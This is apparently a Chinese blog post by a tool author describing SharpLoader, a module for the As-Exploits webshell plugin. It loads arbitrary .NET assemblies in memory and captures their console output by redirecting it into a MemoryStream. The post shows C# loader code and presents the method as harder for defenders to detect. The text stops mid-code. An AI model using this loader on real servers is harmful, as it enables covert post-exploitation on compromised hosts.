 # 讲讲As-Exploits新模块SharpLoader


<meta name="referrer" content="no-referrer" />

## 前言

最近给As-Exploits增加了一个新的模块：SharpLoader。该模块可以从内存中加载任意的assembly程序集，有点类似Cobalt Strike的execute-assembly功能。但是不同的是：cs是进程层面，用的是CLR方式，而WebShell本来就处于C#的进程中，可以调用原生的assembly加载。CLR方式加载C#整个过程都需要用到dll注入，防守方可以根据这一特点对dll反射等进行监控拦截。而在C#中调用原生的assembly加载跟普通的行为并无区别，更难以检测。

## 核心思路

其实仅加载assembly并不难，核心就是调用Assembly.Load。以SharpCradle为例，其核心代码如下：

```cpp
public static void loadAssembly(byte[] bin, object[] commands)
{
    Assembly a = Assembly.Load(bin);
    try
    {       
        a.EntryPoint.Invoke(null, new object[] { commands });
    }
    catch
    {
        MethodInfo method = a.EntryPoint;
        if (method != null)
        {
            object o = a.CreateInstance(method.Name);                    
            method.Invoke(o, null);
        }
    }//End try/catch            
}//End loadAssembly
```

**难的是加载任意的assembly后如何拿到回显**。因为一般C#的各种后渗透工具都是在控制台输出结果，没有办法直接回显到Web。

在哥斯拉中有很多内置的C#模块，但是都是开发者在原版的基础上经过二次改造才内置到了工具里面去，其中主要改造的就是回显部分。当时自己就在想，是否能够找到一种通用的方法，能够去任意的加载各种C#写的payload，而不需要二次开发呢。

研究了一下后搞了个骚操作：我们可以在程序执行的时候把输出流重定向到一个MemoryStream里，程序执行完了再还原回去。

经过改造后的核心代码如下：

```csharp
//重定向输出
TextWriter tmp = Console.Out;
MemoryStream memoryStream = new MemoryStream();
StreamWriter sw = new StreamWriter(memoryStream);
Console.SetOut(sw);
try
{
    a.EntryPoint.Invoke(null, new object[] { commands });
}
catch
{
    MethodInfo method = a.EntryPoint;
    if (method != null)
    {
        object o = a.CreateInstance(method.Name);
        method.Invoke(o, new object[] { commands });
    }
}
finally
{
   //增加延时，保证所有输出都进入缓冲区
```